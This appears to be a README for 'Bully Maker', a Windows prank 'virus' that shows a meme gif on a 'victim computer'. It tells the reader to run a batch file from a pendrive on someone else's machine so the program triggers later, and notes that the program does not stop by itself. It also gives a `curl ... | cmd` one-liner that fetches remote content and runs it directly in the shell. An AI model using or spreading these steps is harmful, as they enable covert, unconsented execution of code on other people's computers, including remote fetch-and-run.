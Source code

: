 # Bully Maker

A program that bullies the victim computer with a meme albanian virus and a sussy hacker gif

Inspiration for albanian virus:
https://www.reddit.com/r/funny/comments/3l65rp/albanian_virus/

## Requirements
- Windows operating system
- Access to the victim computer for a few minutes

## Usage

- Copy the setup.bat and bully.gif to a pendrive
- Open the pendrive in the victim's computer and run the setup file
- Enter the time you want the program to wait, as you would wish the program to
run while the computer is being used. the default waiting time is 120 seconds
that is 2 minutes.
- After the setup is completed unplug the pendrive, and after the timeout is 
completed, the meme virus will detonate.

## FAQs
1) Is this harmful?<br>
A) Not really

2) How to stop the program?<br>
A) The program doesn't stop by itself, you will need open task manager and kill the vbs task.
If you cannot do that, the only option is to restart the computer.

3) How to uninstall the virus?<br>
A) Go to the temp folder by typing `cd %tmp%` and delete the folder named
bully by running `rmdir /s bully`

## Miscellaneous
If you do not wish to use a pendrive and the victim computer has internet connection
you can also run the below command in cmd

`curl -s | cmd`

